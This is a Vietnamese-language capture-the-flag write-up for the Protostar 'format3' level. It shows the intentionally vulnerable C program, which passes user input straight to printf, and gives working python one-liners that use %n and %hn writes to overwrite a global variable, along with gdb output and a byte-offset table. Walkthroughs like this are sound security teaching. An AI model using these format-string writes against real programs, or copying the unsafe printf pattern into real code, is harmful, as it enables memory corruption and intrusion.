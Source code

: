 # FORMAT THREE

## About

This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.

This level is at /opt/protostar/bin/format3

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT THREE` tiếp tục là một thử thách được nâng cao từ `FORMAT TWO`, chúng ta vẫn cần ghi một giá trị được kiểm soát vào vị trí ta mong muốn - ở đây vẫn là biến toàn cục `target` để nhận được `"you have modified the target :)"` nhưng thay vì là 1 số decimal thì giá trị cần ghi là `0x01025544`.

Khá phức tạp, ta có `0x01025544 = 16930116` là một giá trị decimal thực sự lớn và nếu vẫn tiếp tục dùng cách ghi đè của `FORMAT TWO` thì ta sẽ không nhận được điều mình cần là `target == 0x01025544` vì số lượng ký tự ghi vào quá lớn.

Thay vào đó ta sẽ ghi lần lượt 4 lần vào từng byte tăng dần bắt đầu từ địa chỉ của biến `target` và với các giá trị là `44` `55` `02` `01` `[little edian]`.

Địa chỉ `target = 0x80496f4`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format3
Reading symbols from /opt/protostar/bin/format3...done.
(gdb) p target
$1 = 0
(gdb) p &target
$2 = (int *) 0x80496f4
(gdb)
```

Thực hiện quét stack ta có chuỗi đầu vào sẽ được định dạng từ parameter thứ 12.

Tôi sẽ không trình bày chi tiết cách tôi ghi từng byte, thay vào đó bạn có thể đọc từ cuốn sách tôi để ở `Documents`.

```
                 0      1      2
hex     | \x44 | \x55 | \x02 | \x01 |
decimal |  68  |  85  |  258 |  513 |
Đã có   |  16  |  68  |  85  |  258 |
Cần     |  52  |  17  |  173 |  255 |
para    |  12  |  13  |  14  |  15  |
Addr:
0x80496xx| f4  |  f5  |  f6  |  f7  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%52x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n" + "%255x" + "%15$n"' | ./format3
                                                   0         bffffac0                                                                                                                                                                     b7fd7ff4                                                                                                                                                                                                                                                              0
you have modified the target :)
```

Cách điền `hn-hn`, bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%" + str(0x5544 - 8) + "x%12$hn" + "%" + str(0x10102 - 0x5544) + "x%13$hn"' | ./format3
```


## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>

<https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c>

Bạn có thể đọc phần Format String của cuốn này:
<https://whitehat.vn/attachments/nghe-thuat-tan-dung-loi-phan-mem-pdf.1430/>



